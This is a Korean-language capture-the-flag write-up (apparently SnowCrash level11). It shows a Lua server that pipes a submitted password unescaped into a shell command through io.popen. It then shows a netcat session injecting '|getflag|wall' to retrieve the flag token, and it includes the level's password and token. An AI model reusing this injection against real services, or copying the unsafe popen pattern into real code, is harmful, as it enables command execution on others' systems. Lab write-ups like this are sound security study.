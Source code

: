 > Password: feulo4b72j7edeahuete3no7c

# 접근 방법

홈 디렉토리에 있는 `level11.lua`를 보면

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end

while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

`5151`번 포트에서 비밀번호를 입력받고 그 비밀번호의 `sha1 hash`와 하드코딩 된 `hash`를 비교하여 결과에 따라서 메시지를 출력하는 프로그램인 것을 알 수 있다.

이때 `sha1 hash`를 구하는 과정에서

```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```

입력된 비밀번호를 별다른 확인 없이 쉘에서 평가하는 것을 볼 수 있다.

따라서 비밀번호로 `|getflag|wall`와 같은 문자열을 입력하면 `flag`를 얻을 수 있다.

```bash
$ nc 127.0.0.1 5151
Password: |getflag|wall

Broadcast Message from flag11@Snow
        (somewhere) at 22:02 ...

Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

Erf nope..
```